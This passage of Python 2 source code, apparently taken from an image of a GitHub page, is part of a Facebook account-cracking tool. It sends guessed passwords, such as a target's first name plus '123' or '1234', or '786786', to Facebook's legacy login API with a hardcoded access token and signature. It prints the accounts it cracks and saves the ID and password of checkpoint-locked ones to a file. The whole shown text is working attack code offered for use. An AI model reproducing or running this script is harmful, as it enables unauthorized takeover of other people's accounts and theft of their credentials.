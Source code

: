                 cek = open('out/super_cp.txt', 'a')
                cek.write('ID:' + user + ' Pw:' + pass1 + '\n')
                cek.close()
                cekpoint.append(user + pass1)
            else:
                pass2 = b['first_name'] + '123'
                data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                q = json.load(data)
                if 'access_token' in q:
                    print '\x1b[32;1m[OK\xe2\x9c\x93] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                    print '\x1b[32;1m[!] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass2 + '\n'
                    oks.append(user + pass2)
                elif 'www.facebook.com' in q['error_msg']:
                    print '\x1b[33;1m[Cp\xf0\x9f\x90\xaf+] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                    print '\x1b[33;1m[\xe2\x88\x9a] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass2 + '\n'
                    cek = open('out/super_cp.txt', 'a')
                    cek.write('ID:' + user + ' Pw:' + pass2 + '\n')
                    cek.close()
                    cekpoint.append(user + pass2)
                else:
                    pass3 = b['first_name'] + '1234'
                    data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[32;1m[OK\xe2\x9c\x93] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                        print '\x1b[32;1m[!] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass3 + '\n'
                        oks.append(user + pass3)
                    elif 'www.facebook.com' in q['error_msg']:
                        print '\x1b[33;1m[Cp\xf0\x9f\x90\xaf+] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                        print '\x1b[33;1m[\xe2\x88\x9a] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass3 + '\n'
                        cek = open('out/super_cp.txt', 'a')
                        cek.write('ID:' + user + ' Pw:' + pass3 + '\n')
                        cek.close()
                        cekpoint.append(user + pass3)
                    else:
                        pass4 = '786786'
                        data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                        q = json.load(data)
                        if 'access_token' in q:
                            print '\x1b[32;1m[OK\xe2\x9c\x93] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                            print '\x1b[32;1m[\xe2\x9e\xb9] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass4 + '\n'
                            oks.append(user + pass4)
                        elif 'www.facebook.com' in q['error_msg']:
                            print '\x1b[33;1m[Cp\xf0\x9f\x90\xaf+] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                            print '\x1b[33;1m[\xe2\x88\x9a] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass4 + '\n'
                            cek = open('out/super_cp.txt', 'a')
                            cek.write('ID:' + user + ' Pw:' + pass4 + '\n')
                            cek.close()
                            cekpoint.append(user + pass4)
                        else:
                            pass5 = '000786'
                            data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[32;1m[OK\xe2\x9c\x93] \x1b[0;1mID \x1b[1;91m      : \x1b[0;1m' + user
                                print '\x1b[32;1m[!] \x1b[0;1mPassword \x1b[1;91m: \x1b[0;1m' + pass5 + '\n'